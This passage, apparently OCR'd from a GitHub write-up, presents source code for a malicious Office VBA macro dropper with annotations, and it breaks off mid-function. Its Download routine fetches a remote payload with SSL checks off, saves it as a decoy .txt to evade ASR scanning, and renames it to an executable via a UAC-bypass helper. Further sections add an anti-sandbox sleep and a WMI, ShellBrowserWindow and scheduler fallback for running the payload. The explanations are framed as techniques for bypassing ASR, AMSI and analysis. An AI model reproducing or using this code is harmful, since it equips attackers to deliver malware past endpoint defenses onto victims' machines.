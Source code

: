 #### 2. Download Function (Bypass ASR and AMSI)

```
Sub Download(myURL As String, realPath As String)
    Dim downloadPath As String
    Dim renameCmd As String
    Dim WinHttpReq As Object
    Dim oStream As Object
    downloadPath = Environ("TEMP") & "\vcsjbjc.txt"
    Set WinHttpReq = CreateObject("MSXML2.ServerXMLHTTP.6.0")
    WinHttpReq.setOption(2) = 13056  ' Ignore SSL errors
    WinHttpReq.Open "GET", myURL, False
    WinHttpReq.setRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)"
    WinHttpReq.Send
    If WinHttpReq.Status = 200 Then
        Set oStream = CreateObject("ADODB.Stream")
        oStream.Open
        oStream.Type = 1  ' Binary
        oStream.Write WinHttpReq.ResponseBody
        oStream.SaveToFile downloadPath, 2  ' Overwrite if exists
        oStream.Close
        
        renameCmd = "cmd.exe /c move """ & downloadPath & """ """ & realPath & """"
        BypassUACExec renameCmd
        
        MySleep 1
    End If
End Sub
```

- **Decoy download** into `.txt` file (`vcsjbjc.txt`) to **bypass ASR scanning**.
- **Then move** the `.txt` file into the real binary (`dropped.exe`) **using CMD**.
- **Bypasses** AMSI scanning by using ADODB instead of common methods.

#### 3. Sleep Helper

**(Simple anti-sandbox method)**

```
Sub MySleep(seconds As Integer)
    Dim endTime As Date
    endTime = DateAdd("s", seconds, Now)
    Do While Now < endTime
        DoEvents
    Loop
End Sub
```

- Can slow execution slightly to **bypass analysis environments**.

#### 4. ASR Catch Avoidance with Error Handling

```
Sub ExecuteCmdAsync(targetPath As String)
    On Error Resume Next
    Err.Clear
    
    wimResult = WmiExec(targetPath)
    
    If Err.Number <> 0 Or wimResult <> 0 Then
        Err.Clear
        ShellBrowserWindowExec targetPath
    End If
    
    If Err.Number <> 0 Then
        Err.Clear
        SchedulerExec(targetPath)
```